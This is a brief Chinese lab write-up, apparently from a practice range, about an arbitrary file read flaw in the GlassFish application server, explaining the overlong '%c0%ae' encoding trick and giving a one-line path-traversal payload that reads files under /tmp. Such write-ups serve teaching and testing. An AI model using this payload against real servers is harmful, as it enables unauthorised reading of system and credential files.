


# GlassFish任意文件读取漏洞

## 漏洞概述

glassfish 是一款 java 编写的跨平台的开源的应用服务器。漏洞原理与宽字节 SQL 注入一致，都是由于 unicode 编码歧义导致的。java 中会把"%c0%ae"解析为"\uC0AE"，最后转义为ASCCII字符的"."（点）, 所以 glassfish 这个 poc 实际上就是../../../../../../../../../../../xxx/xxx

## 复现

首先打开靶场，启动加载页面可能会慢，等一会就好。

直接读 tmp 文件下的 Flag,POC 如下：

`/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/tmp`

